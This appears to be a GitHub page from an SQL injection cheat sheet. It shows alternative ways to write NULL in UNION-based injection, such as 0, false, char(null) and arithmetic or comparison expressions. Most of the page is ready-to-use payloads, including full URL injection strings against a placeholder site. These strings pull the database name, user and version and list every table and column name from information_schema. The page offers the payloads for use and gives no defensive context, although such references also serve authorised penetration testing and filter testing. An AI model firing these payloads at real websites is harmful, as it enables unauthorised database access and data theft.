 

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20Null%20in%20SQL%20Injection#the-alternative-way-of-using-null-in-sql-injection)
## The traditional way of using Null

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20Null%20in%20SQL%20Injection#the-traditional-way-of-using-null)

```
Union Select null,null,null,null
```

## The alternative way of using Null

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20Null%20in%20SQL%20Injection#the-alternative-way-of-using-null)

```
Union Select 0,0,0,0
Union Select false,false,false,false
Union Select char(null),char(null),char(null),char(null)
Union Select char(false),char(false),char(false),char(false)
Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
Union Select 34=35,34=35,34=35,34=35
```

## Examples

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20Null%20in%20SQL%20Injection#examples)

Using **0**

```
http://website.com/index.php?id=1 div 0 Union Select "0 div 0 Union Select 0,0,0,0,concat(0x222f3e,0x3c62723e,'Injected',0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version :: ',version(),0x3c62723e,user(),make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),0--+",0,0,0,0,0--+
```

Using **false**

```
http://website.com/index.php?id=1 div false Union Select "false div false Union Select false,false,false,false,concat(0x222f3e,0x3c62723e,'Injected',0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version :: ',version(),0x3c62723e,user(),make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),false--+",false,false,false,false,false--+
```

Using **char()**

```
http://website.com/index.php?id=1 div char(null) Union Select "char(null) div char(null) Union Select char(null),char(null),char(null),char(null),concat(0x222f3e,0x3c62723e,'Injected',0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version :: ',version(),0x3c62723e,user(),make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),char(null)--+",char(null),char(null),char(null),char(null),char(null)--+
```

Using Arithmetic or Logical Operator

```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,'Injected',0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version :: ',version(),0x3c62723e,user(),make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)--+
http://website.com/index.php?id=1 div 34=35 Union Select "34=35 div 34=35 Union Select 34=35,34=35,34=35,34=35,concat(0x222f3e,0x3c62723e,'Injected',0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version :: ',version(),0x3c62723e,user(),make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),34=35--+",34=35,34=35,34=35,34=35,34=35--+
```